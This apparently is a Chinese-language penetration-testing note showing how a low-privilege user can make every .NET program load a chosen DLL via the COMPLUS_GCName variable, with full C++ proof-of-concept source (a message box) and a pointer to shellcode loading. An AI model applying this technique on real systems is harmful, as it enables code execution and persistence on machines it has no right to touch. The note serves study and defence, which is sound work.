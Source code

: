 	低权限用户可指定.net应用程序使用自定义垃圾收集器（GC），一个自定义GC可以以COMPLUS_GCName此环境变量指定，只需将此环境变量指向到恶意DLL，自定义GC的DLL需要一个名为GC_VersionInfo的导出表。
	下面是个弹框DLL
```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "giao", "giao", 0);
}

```
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/686.png)

	后执行任意.net程序可加载此DLL
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/687.png)

	当然也可以加载shellcode
	https://github.com/am0nsec/MCGC
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/688.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/689.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/690.png)